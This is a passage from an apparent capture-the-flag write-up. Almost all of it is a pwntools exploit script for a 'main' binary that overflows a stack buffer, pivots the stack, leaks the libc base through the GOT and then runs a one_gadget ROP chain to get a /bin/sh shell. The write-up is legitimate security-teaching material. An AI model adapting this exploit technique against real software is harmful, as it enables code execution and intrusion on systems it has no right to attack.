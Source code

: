 ![Screenshot](/static/writeups/airtech/3.png)

and boom we called the function again now just simply overflow the buffer and get the shell.

```bash
from pwn import *
context.terminal = ["tmux", "splitw", "-h"]
elf = context.binary = ELF("./main")
libc = elf.libc

p=process(aslr=True)

gdb.attach(p)
p.sendlineafter(b"option:",b"1")
p.recvuntil(b"message:")

pop_rax = 0x4011b5
mem_cpy_got = 0x404028
leave_ret = 0x401439
print_acc_func = 0x4011ba
pop_rbp = 0x40118d 
ret2cout = 0x401402

payload = cyclic(120)
payload += p64(pop_rbp)
payload += p64(elf.sym.data+136) # => pivoted the stack to this location 
payload += p64(leave_ret) # => mov rbp in rsp and ret
payload += p64(pop_rbp) # manually setting up rbp so that after cout, program returns to this!!
payload += p64(elf.sym.data+176) # location of return function
payload += p64(pop_rax) 
payload += p64(mem_cpy_got) # moved got in rax  
payload += p64(ret2cout) # from this address it moves rax into rdi and automatically sets up cout args and call cout
payload += p64(print_acc_func) # put this function on stack for referencing in line number 22

p.sendline(payload)
p.recvuntil(b'qaa')
libc.address = u64(p.recvuntil(b'qaa').rstrip(b'qaa')[-6:].ljust(8, b'\x00')) - 0x169cc0
log.info(f"Libc Base Address: {hex(libc.address)}")

pop_rdi = libc.address + 0x2a255
pop_r13 = libc.address + 0x3c154
one_gadget = libc.address + 0xd597b

p.recvline()
p.sendline(b"1")
p.recvuntil(b"message:")

payload = cyclic(64)
payload += p64(pop_rdi) # one gadget wants rdi to be NULL
payload += p64(0)
payload += p64(pop_r13) # one gadget wants r13 to be NULL
payload += p64(0)
payload += p64(pop_rbp) # one gadget wants rbp-0x38 to be writeable
payload += p64(elf.sym.data+200) # so that our rbp become writeable
payload += p64(one_gadget) 
#'''
# 0xdd063 execve("/bin/sh", rbp-0x40, r13)
# constraints:
#   address rbp-0x38 is writable
#   rdi == NULL || {"/bin/sh", rdi, NULL} is a valid argv
#   [r13] == NULL || r13 == NULL || r13 is a valid envp
# '''

```